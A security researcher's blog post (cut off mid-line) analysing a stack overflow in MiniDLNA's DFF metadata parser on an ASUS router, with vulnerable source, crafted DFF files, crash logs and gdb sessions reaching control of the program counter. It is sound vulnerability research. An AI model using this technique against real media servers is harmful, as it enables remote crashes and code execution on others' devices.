








# Intro

I always wanted to find a memory corruption vulnerability when I started doing vulnerability research, but somehow `grep password` was sufficient to achieve RCE. This time I decided to poke at my own router, the [ASUS RT-AX86U](https://www.asus.com/networking-iot-servers/wifi-routers/asus-gaming-routers/rt-ax86u/){:target="_blank"}. The router is running on ARM, which I haven't played with so far, so this looked like a good learning experience. 

What I've found are multiple vulnerabilities in [ReadyMedia / MiniDLNA](https://sourceforge.net/projects/minidlna/){:target="_blank"} which can be exploited to crash the service, leak sensitive data, or achieve remote command execution. The one I dug into and exploited on my router hits the DFF file parser.

# About ReadyMedia / MiniDLNA

[ReadyMedia](https://sourceforge.net/projects/minidlna/){:target="_blank"} (formerly known as MiniDLNA) is a simple media server. It is a lightweight, free piece of software that turns your device into a home media server, streaming your movies, music and photos to a Smart TV, console or phone.

It is available in [repositories](https://pkgs.org/download/minidlna){:target="_blank"} for various Linux distributions (check out the [Cross-Platform Confirmation](#cross-platform-confirmation) section at the end), confirmed present on ASUS, OpenWrt, and DD-WRT firmware; historically bundled as an add-on package on some NAS devices (Synology, QNAP, ReadyNAS).

It is being replaced by better alternatives, but it is still widely present. A quick Shodan search shows its external exposure, but it is far more often exposed only internally.



A plain `minidlna` Shodan search returns 48,476 results but that number can't be read as 48,476 vulnerable instances. A quick look at the top hits shows most are running versions well below 1.3.0 (`1.1.4`, `1.0.24`, even `1.0`), which predate the DFF parser entirely and are therefore unaffected by this specific bug. Since the DFF parser only exists in versions 1.3.0 - 1.3.3, the exposure is a narrower subset of that total and drops down to approximately 7,400 instances.
Also, as you will see, there are prerequisites for exploiting this vulnerability and I only exploited it on the ASUS router.

By default, MiniDLNA listens on port 8200/tcp and is configured via `/etc/minidlna.conf`. Config from my ASUS router:

```bash
root@dafuq:/tmp/home/root# netstat -tulnp | grep minidlna | grep LISTEN
tcp        0      0 0.0.0.0:8200            0.0.0.0:*               LISTEN      19813/minidlna

root@dafuq:/tmp/home/root# cat /etc/minidlna.conf
network_interface=br0
port=8200
friendly_name=Media
db_dir=/tmp/mnt/Toshiba/.minidlna
log_dir=/tmp/mnt/Toshiba/.minidlna
enable_tivo=no
strict_dlna=no
inotify=yes
notify_interval=600
album_art_names=Cover.jpg/cover.jpg/Thumb.jpg/thumb.jpg
presentation_url=https://192.168.1.1:8443/
media_dir=/mnt/Toshiba/Downloads
...
```

As you can see in the config, it uses `inotify`. Rather than wasting CPU cycles continuously scanning the disk for modifications, MiniDLNA hooks into `inotify`, a native Linux kernel subsystem that watches the filesystem in real time. The moment you drop a new movie or song into a shared folder, `inotify` fires an event, waking MiniDLNA to parse only that one new file and inject its metadata into the database.

To visualize how your device discovers the ReadyMedia / MiniDLNA service on the network, here is a Wireshark network traffic capture:


- Your device uses the Simple Service Discovery Protocol ([SSDP](https://en.wikipedia.org/wiki/Simple_Service_Discovery_Protocol){:target="_blank"}) protocol to discover MiniDLNA on the network via multicast (in this example, I used VLC Media Player to browse the local network).
- It sends an M-SEARCH discovery packet to the SSDP multicast address (`239.255.255.250:1900` for IPv4, `[FF0x::C]:1900` for IPv6) (bottom-left).
- The MiniDLNA server replies with a `200 OK` as a unicast reply to the multicast query, containing a `LOCATION` header that points to its device description XML: in this example, `http://192.168.1.1:8200/rootDesc.xml` (bottom-left).
- Your device then makes an actual HTTP GET request to that `LOCATION` URL and receives the device's metadata (bottom right). Note that the server banner in the response (`Server: 4.1.52 DLNADOC/1.50 UPnP/1.0 MiniDLNA/1.3.3`) displays the exact MiniDLNA version.

I already had an SMB share set up and a USB HDD mounted on the router, so I decided to take a look and copied the `minidlna` binary (32-bit) from the router (64-bit kernel) to my machine. _Note: I chose SMB as an attack vector, but if you want to attack the router via WAN, [AiCloud](https://www.asus.com/content/aicloud/) is your friend._

```bash
➜  minidlna file ./minidlna
./minidlna: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 4.1.0, stripped
```

# Vulnerability Discovery

I used [Semgrep](https://semgrep.dev){:target="_blank"} to scan the ReadyMedia / MiniDLNA source which is available [here](https://sourceforge.net/projects/minidlna/files/minidlna/1.3.3/){:target="_blank"}. I will omit all other vulnerabilities that it found, and will leave only relevant information for this blog post.

```bash
➜  minidlna-1.3.3 git:(master) semgrep scan

┌──── ○○○ ────┐
│ Semgrep CLI │
└─────────────┘

METRICS: Using configs from the Registry (like --config=p/ci) reports pseudonymous rule metrics to semgrep.dev.
To disable Registry rule metrics, use "--metrics=off".
When using configs only from local files (like --config=xyz.yml) metrics are sent only when the user is logged in.

More information: https://semgrep.dev/docs/metrics

⠸ Loading rules from registry...
Scanning 132 files (only git-tracked) with:

✔ Semgrep OSS
  ✔ Basic security coverage for first-party code vulnerabilities.

✔ Semgrep Code (SAST)
  ✔ Find and fix vulnerabilities in the code you write with advanced scanning and expert security rules.

✘ Semgrep Supply Chain (SCA)
  ✘ Find and fix the reachable vulnerabilities in your OSS dependencies.

  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:11


┌──────────────────┐
│ 29 Code Findings │
└──────────────────┘
...
    minidlna.c
     ❱ cpp.lang.security.system-command.dont-call-system.dont-call-system
          ❰❰ Blocking ❱❱
          Don't call `system`. It's a high-level wrapper that allows for stacking multiple commands. Always
          prefer a more restrictive API such as calling `execve` from the `exec` family.
          Details: https://sg.run/BYWWx

          405┆ if (system(cmd) != 0)
            ⋮┆----------------------------------------
          405┆ if (system(cmd) != 0)

 ...
    tagutils/tagutils-dff.c
    ❯❱ cpp.lang.security.memory.allocation.tainted-allocation-size.tainted-allocation-size
          ❰❰ Blocking ❱❱
          Externally controlled data influences the size of an allocation. This can usually lead to overflow
          or underflow and later trigger an out of bounds conditions.
          Details: https://sg.run/bwzge

          130┆ unsigned char propckData[propckDataSize];
            ⋮┆----------------------------------------
             ...
...
```

Let's look at the `tagutils/tagutils-dff.c` at line 130 to see what is going on:



`propckDataSize` appears only in `tagutils/tagutils-dff.c`:

```bash
user@ubuntu:~/minidlna-1.3.3$ grep -Rinw propckDataSize *
tagutils/tagutils-dff.c:48:     uint64_t propckDataSize = 0;
tagutils/tagutils-dff.c:127:                    propckDataSize = GET_DFF_INT64(ckbuf + 4);
tagutils/tagutils-dff.c:128:                    totalcount += propckDataSize + 12;
tagutils/tagutils-dff.c:130:                    unsigned char propckData[propckDataSize];
tagutils/tagutils-dff.c:132:                    if (!(rt = fread(propckData, propckDataSize, 1, fp)))
tagutils/tagutils-dff.c:147:                    while (count < propckDataSize)
tagutils/tagutils-dff.c:376:    //DPRINTF(E_DEBUG, L_SCANNER, "propckDataSize is 0x%016lx\n", (long unsigned int)propckDataSize);
```

For clarity, I think it is best to drop the source of `tagutils-dff.c` here, up to the vulnerable part:

```c
//=========================================================================
// FILENAME     : tagutils-dff.c
// DESCRIPTION  : DFF metadata reader
//=========================================================================
// Copyright (c) 2014 Takeshich NAKAMURA
//=========================================================================

/*
 * This program is free software; you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation; either version 2 of the License, or
 * (at your option) any later version.
 *
 * This program is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with this program. If not, see <http://www.gnu.org/licenses/>.
 */
#define GET_DFF_INT64(p) ((((uint64_t)((p)[0])) << 56) |   \
			  (((uint64_t)((p)[1])) << 48) |   \
			  (((uint64_t)((p)[2])) << 40) |   \
			  (((uint64_t)((p)[3])) << 32) |   \
			  (((uint64_t)((p)[4])) << 24) |   \
			  (((uint64_t)((p)[5])) << 16) |   \
			  (((uint64_t)((p)[6])) << 8) |    \
			  (((uint64_t)((p)[7]))))

#define GET_DFF_INT32(p) ((((uint32_t)((p)[0])) << 24) |   \
			  (((uint32_t)((p)[1])) << 16) |   \
			  (((uint32_t)((p)[2])) << 8) |     \
			  (((uint32_t)((p)[3]))))

#define GET_DFF_INT16(p) ((((uint16_t)((p)[0])) << 8) |   \
			  (((uint16_t)((p)[1]))))

static int
_get_dfffileinfo(char *file, struct song_metadata *psong)
{
	FILE *fp;
	uint32_t len;
	uint32_t rt;
	unsigned char hdr[32] = { 0 };

	uint64_t totalsize = 0;
	uint64_t propckDataSize = 0;
	uint64_t count = 0;
	uint32_t samplerate = 0;
	uint16_t channels = 0;
	//DST
	uint64_t dstickDataSize = 0;
	uint32_t numFrames = 0;
	uint16_t frameRate = 0;
	unsigned char frteckData[18] = { 0 };
	unsigned char dstickData[12] = { 0 };
	uint64_t totalcount = 0;
	unsigned char ckbuf[12] = { 0 };
	unsigned char compressionType[4] = { 0 };
	unsigned char dsdsdckData[12] = { 0 };
	uint64_t dsdsdckDataSize = 0;
	uint64_t cmprckDataSize = 0;
	uint64_t abssckDataSize = 0;
	uint64_t lscockDataSize = 0;
	uint64_t comtckDataSize = 0;
	uint64_t diinckDataSize = 0;
	uint64_t diarckDataSize = 0;
	uint64_t ditickDataSize = 0;
	uint64_t manfckDataSize = 0;

	//DPRINTF(E_DEBUG,L_SCANNER,"Getting DFF fileinfo =%s\n",file);

	if ((fp = fopen(file, "rb")) == NULL)
	{
		DPRINTF(E_WARN, L_SCANNER, "Could not create file handle\n");
		return -1;
	}

	len = 32;
	//Form DSD chunk
	if (!(rt = fread(hdr, len, 1, fp)))
	{
		DPRINTF(E_WARN, L_SCANNER, "Could not read Form DSD chunk from %s\n", file);
		fclose(fp);
		return -1;
	}

	if (strncmp((char*)hdr, "FRM8", 4))
	{
		DPRINTF(E_WARN, L_SCANNER, "Invalid Form DSD chunk in %s\n", file);
		fclose(fp);
		return -1;
	}

	totalsize = GET_DFF_INT64(hdr + 4);

	if (strncmp((char*)hdr + 12, "DSD ", 4))
	{
		DPRINTF(E_WARN, L_SCANNER, "Invalid Form DSD chunk in %s\n", file);
		fclose(fp);
		return -1;
	}

	//FVER chunk
	if (strncmp((char*)hdr + 16, "FVER", 4))
	{
		DPRINTF(E_WARN, L_SCANNER, "Invalid Format Version Chunk in %s\n", file);
		fclose(fp);
		return -1;
	}

	totalsize -= 16;
	while (totalcount < totalsize - 4)
	{
		if (!(rt = fread(ckbuf, sizeof(ckbuf), 1, fp)))
		{
			//DPRINTF(E_WARN, L_SCANNER, "Could not read chunk header from %s\n", file);
			//fclose(fp);
			//return -1;
			break;
		}

		//Property chunk
		if (strncmp((char*)ckbuf, "PROP", 4) == 0)
		{
			propckDataSize = GET_DFF_INT64(ckbuf + 4);
			totalcount += propckDataSize + 12;

			unsigned char propckData[propckDataSize];

			if (!(rt = fread(propckData, propckDataSize, 1, fp)))
			{
				DPRINTF(E_WARN, L_SCANNER, "Could not read Property chunk from %s\n", file);
				fclose(fp);
				return -1;
			}

			if (strncmp((char*)propckData, "SND ", 4))
			{
				DPRINTF(E_WARN, L_SCANNER, "Invalid Property chunk in %s\n", file);
				fclose(fp);
				return -1;
			}
	... 
    xasprintf(&(psong->dlna_pn), "DFF");
	return 0;
}
```

The code parses the DFF file via the `_get_dfffileinfo` function by first opening the file, `fread`ing the first 32 bytes, and verifying that it contains the appropriate magic chunks, specifically `FRM8`, `DSD`, and `FVER` at offsets 0, 12, and 16.

`fread` now points to the `ckbuf` array, which should start with the `PROP` chunk, as checked on line 125. If it exists, at offset `ckbuf + 4` (right after the `PROP` magic), the code uses the `GET_DFF_INT64` macro to obtain 8 bytes. This macro is used to combine eight separate bytes from a file into a single 64-bit integer. 

At line 130 - it uses the `propckDataSize`, which is entirely under our control, to create a `propckData` Variable Length Array (VLA) with no bounds checks. Let's check this out.

The DFF file structure looks like this:

```bash
'FRM8'  (root, formType = 'DSD ')                    
│
├── 'FVER'  Format Version Chunk                     
│
├── 'PROP'  Property Chunk  (propType = 'SND ')      
│     ├── 'FS  '  Sample Rate Chunk                  
│     ├── 'CHNL'  Channels Chunk                      
│     ├── 'CMPR'  Compression Type Chunk              
│     ├── 'ABSS'  Absolute Start Time Chunk           
│     └── 'LSCO'  Loudspeaker Config Chunk            
│
├── 'DSD '  DSD Sound Data Chunk   ──┐
├── 'DST '  DST Sound Data Chunk   ──┴─ // either DSD or DST
│     ├── 'FRTE'  DST Frame Info Chunk               
│     ├── 'DSTF'  DST Frame Data Chunk                
│     └── 'DSTC'  DST Frame CRC Chunk                
│
├── 'DSTI'  DST Sound Index Chunk                    
│
├── 'COMT'  Comments Chunk                            
│
├── 'DIIN'  Edited Master Info Chunk                  
│     ├── 'EMID'  Edited Master ID Chunk              
│     ├── 'MARK'  Marker Chunk                       
│     ├── 'DIAR'  Artist Chunk                        
│     └── 'DITI'  Title Chunk                         
│
└── 'MANF'  Manufacturer Specific Chunk               
```

More about the DFF file structure can be found on [Sonic Studio](https://sonicstudio.com/pdf/dsd/DSDIFF_1.5_Spec.pdf){:target="_blank"}.

First I created a valid DFF file:

```bash
user@ubuntu:~ hexdump -C dff-input/sample.dff
00000000  46 52 4d 38 00 00 00 00  00 00 00 63 44 53 44 20  |FRM8.......cDSD |
00000010  46 56 45 52 00 00 00 00  00 00 00 04 01 05 00 00  |FVER............|
00000020  50 52 4f 50 00 00 00 00  00 00 00 35 53 4e 44 20  |PROP.......5SND |
00000030  46 53 20 20 00 00 00 00  00 00 00 04 00 2b 11 00  |FS  .........+..|
00000040  43 48 4e 4c 00 00 00 00  00 00 00 04 00 02 00 00  |CHNL............|
00000050  43 4d 50 52 00 00 00 00  00 00 00 05 44 53 44 20  |CMPR........DSD |
00000060  00 44 53 44 20 00 00 00  00 00 00 00 02 69 69     |.DSD ........ii|
0000006f
```

Then I changed the PROP chunk size to good old `0x41414141` (1094795585 in decimal, ~1GB):


Copied it over to my SMB file share, and looked at the `dmesg` output on my router:

```bash
root@dafuq:/tmp/home/root# dmesg 
potentially unexpected fatal signal 11.

CPU: 2 PID: 829 Comm: minidlna Tainted: P           O    4.1.52 #2
Hardware name: Broadcom-v8A (DT)
task: ffffffc0215d75c0 ti: ffffffc0215a0000 task.ti: ffffffc0215a0000
PC is at 0xf6d7c260
LR is at 0x30e7c
pc : [<00000000f6d7c260>] lr : [<0000000000030e7c>] pstate: 000d0010
sp : 00000000b58013a8
x12: 00000000000593a8
x11: 00000000f6c158cc x10: 0000000000000000
x9 : 00000000f6c16e40 x8 : 00000000f69f7720
x7 : 0000000000000000 x6 : 0000000000000020
x5 : 0000000000000000 x4 : 00000000b58013b0
x3 : 00000000f69f7720 x2 : 0000000000000001
x1 : 0000000041414141 x0 : 00000000b58013b0
```

W00t! The `x1` register holds `0000000041414141` - attacker-controlled PROP chunk size. What is `potentially unexpected fatal signal 11.`?

```bash
root@dafuq:/tmp/home/root# kill -l | grep 11
11) SEGV
```

SIGSEGV!

# Vulnerability analysis

So, the prerequisites to crash the service are:
- SMB service needs to be network-reachable (LAN attack vector) / AiCloud enabled (WAN attack vector)
- user that has permissions to write via an SMB share / AiCloud
- a DFF file with an oversized PROP Chunk Size

Until that day, I never really looked at ARM instructions nor did I have any experience with ARM exploitation. But registers are registers, memory is memory, instructions are instructions.

First, let's check the binary protections. For this I used [ExeCheck](https://github.com/kost/execheck){:target="_blank"} from my colleague Kost.

```bash
root@dafuq:/tmp/home/root# ./execheck-aarch64-unknown-linux-musl /usr/sbin/minidlna
Security Check Report
====================

Summary:
  Total files: 1
  Secure files: 0
  Insecure files: 1
  Unsupported files: 0

File: /usr/sbin/minidlna
Type: ELF
Status: ⚠ Mostly Secure
Security Checks:
  RELRO          : ⚠ Partial RELRO
  Stack Canary   : ✗ No Canary Found
  NX             : ✓ NX enabled
  PIE            : ✗ PIE Disabled
  RPATH          : ✓ No RPATH
  RUNPATH        : ✓ No RUNPATH
  Symbols        : ✓ No Symbols
  FORTIFY        : No
  Fortified      : 0
  Fortifiable    : 11
  CET            : No CET
```

So: partial RELRO, NX enabled, no PIE, no stack canaries.

What about ASLR?
```bash
root@dafuq:/tmp/home/root# cat /proc/sys/kernel/randomize_va_space
2
```

Well, that is not nice. That means full ASLR - stack, heap, and mmap (libraries) are all randomized, and I do not have any information disclosure vulnerabilities that would leak some memory addresses. The one thing it doesn't touch is the base of a non-PIE binary like this one: its code, PLT and any gadgets stay at fixed addresses.

I copied over `gdb-static` and modified the poc.dff file a bit by adding a bunch of `0x41`s in the file to see how that would affect the registers, and set the PROP Chunk size to `0xFFFFFFFF`. So, why `0xFFFFFFFF`? While trying to exploit the vulnerability it just seemed to work reliably. But it did bug me why this worked, specifically? I didn't actually get it until I sat down to write this blog post.

Every time the program needs space for something, it keeps a running count of how much room is left, like an odometer with a fixed number of digits. Ask for space, and the counter ticks down. Ask for more space than the counter can actually represent, though, and instead of going negative, it wraps back around near the top, the same way an odometer rolls from all-9s back to zero. Our "odometer" is the stack pointer `sp`. `sp` is a 32-bit register, so it can only hold values from `0` up to `0xFFFFFFFF` (4,294,967,295 in decimal). That's the entire range, every bit set to 1. `0xFFFFFFFF` isn't just "a big number close to the wraparound point", it *is* the wraparound point.

That's the difference between my two test values. `0x41414141` is a big number, but not big enough to hit that wraparound point, so the program just tries to grab about 1 GB of space and crashes the boring, ordinary way and nothing interesting happens. `0xFFFFFFFF` is the exact number that makes this particular counter wrap all the way back. That's the number that turns an ordinary out-of-memory crash into the actual bug: the program thinks it reserved almost no space on the stack, while still believing it's allowed to write nearly 4 GB of data.

The other thing is that `fread()` call (at line 132) sounds like it only "reads," but reading and writing are two sides of the same call. `fread(dest, size, count, file)` reads bytes from the file, and writes them into `dest` buffer in memory.



After copying the file to the network share:
```bash
root@dafuq:/tmp/mnt/Toshiba/Downloads/Tools/gdb# minidlna && ./gdb -q --pid $(pidof minidlna)
Attaching to process 24141
[New LWP 24143]

⚠️ warning: Unable to determine the number of hardware watchpoints available.

⚠️ warning: Unable to determine the number of hardware breakpoints available.

⚠️ warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
0xf6c45728 in select () from /lib/libc.so.6
(gdb) c
Continuing.
Thread 2 "minidlna" received signal SIGSEGV, Segmentation fault.
[Switching to LWP 24143]
0xf6bf172e in strlen () from /lib/libc.so.6
(gdb) info thread
  Id   Target Id            Frame
  1    LWP 24141 "minidlna" 0xf6c45728 in select ()
   from /lib/libc.so.6
* 2    LWP 24143 "minidlna" 0xf6bf172e in strlen ()
   from /lib/libc.so.6
(gdb) info reg
r0             0xffffffff          4294967295
r1             0x41414140          1094795584
r2             0x1                 1
r3             0x0                 0
r4             0x1                 1
r5             0x434e5             275685
r6             0x19                25
r7             0xf6a7b920          4138187040
r8             0xf6cb9000          4140535808
r9             0xf6cb77a8          4140529576
r10            0x0                 0
r11            0xf6a7089c          4138141852
r12            0xffffffff          4294967295
sp             0xf6a703a0          0xf6a703a0
lr             0xf6bbd858          -155461544
pc             0xf6bf172e          0xf6bf172e <strlen+174>
cpsr           0x200b0030          537591856
fpscr          0x0                 0
```

Hm, `pc` still points into `strlen()`, but my input is already landing in `r0` and `r1`. YOLO mode on: I started adding more padding to the file, which ultimately resulted in control over the `pc` register:

```bash
root@dafuq:/tmp/mnt/Toshiba/Downloads/Tools/gdb# ./gdb -q --pid $(pidof minidlna)
Attaching to process 16727
[New LWP 16728]

⚠️ warning: Unable to determine the number of hardware watchpoints available.

⚠️ warning: Unable to determine the number of hardware breakpoints available.

⚠️ warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
0xf6b15728 in select () from /lib/libc.so.6
(gdb) info thread
  Id   Target Id            Frame
* 1    LWP 16727 "minidlna" 0xf6b15728 in select ()
   from /lib/libc.so.6
  2    LWP 16728 "minidlna" 0xf6b1337c in poll () from /lib/libc.so.6
(gdb) c
Continuing.
Thread 2 "minidlna" received signal SIGILL, Illegal instruction.
[Switching to LWP 16728]
0x42424242 in ?? ()
(gdb) x $pc
0x42424242:	❌️ Cannot access memory at address 0x42424242
(gdb) i r
r0             0xffffffff          4294967295
r1             0x16d               365
r2             0xf6600470          4133487728
r3             0x1                 1
r4             0x41414141          1094795585
r5             0x41414141          1094795585
r6             0x41414141          1094795585
r7             0x41414141          1094795585
r8             0x41414141          1094795585
r9             0x41414141          1094795585
r10            0x41414141          1094795585
r11            0x41414141          1094795585
r12            0xf660051c          4133487900
sp             0xf69408d0          0xf69408d0
lr             0x7                 7
pc             0x42424242          0x42424242
cpsr           0x80000010          -2147483632
fpscr          0x0                 0
(gdb) info thread
  Id   Target Id            Frame
  1    LWP 16727 "minidlna" 0xf6b15728 in select ()
   from /lib/libc.so.6
* 2    LWP 16728 "minidlna" 0x42424242 in ?? ()
```

This is the PoC file which gave control over the `$pc` and other registers:



This is the offset from the PROP Size Chunk:

```bash
user@ubuntu:~ python3
Type "help", "copyright", "credits" or "license" for more information.
>>> len("00000000414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141